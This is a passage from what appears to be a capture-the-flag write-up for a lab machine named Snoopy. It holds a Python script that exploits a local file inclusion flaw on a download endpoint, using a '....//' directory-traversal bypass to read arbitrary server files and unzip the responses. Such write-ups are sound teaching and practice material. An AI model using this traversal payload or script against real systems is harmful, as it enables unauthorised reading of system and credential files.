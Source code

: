 These were the most interesting users, and there was a `clamav` and `bind` user, which was something I don't usually find. This means that these softwares must be downloaded on the machine. Anyways, the process for LFI is quite long and slow, so to quickly enumerate the machine, I made a quick Python script to do so:

```python
import requests
import zipfile

def read(file):
	try: 
		url = 'http://provisions.snoopy.htb/download'
		params = {'file':f'....//....//....//....//....//....//....//....//....//....//....//..../{file}'}
		r = requests.get(url, params=params)
		if (r.status_code == 200):
			with open('lfime.zip', 'wb') as f:
				f.write(r.content) 

			with zipfile.ZipFile('lfime.zip', 'r') as zip_file:
				zip_file.extractall('.')
	        
			with open(f'press_package{file}', 'r') as f:
				content = f.read()
				print(f"{content}")

		else:
			print("[-] File does not exist.")	

	except zipfile.BadZipFile:
		print("[-] File does not exist.")
	except Exception as e:
		print(f"[-] LFI Error: {e}.")

def main():
	while True:
		file = input("File: ")
		read(file)

if __name__ == '__main__':
	main()
```

<figure><img src="../../.gitbook/assets/image (21) (3).png" alt=""><figcaption></figcaption></figure>

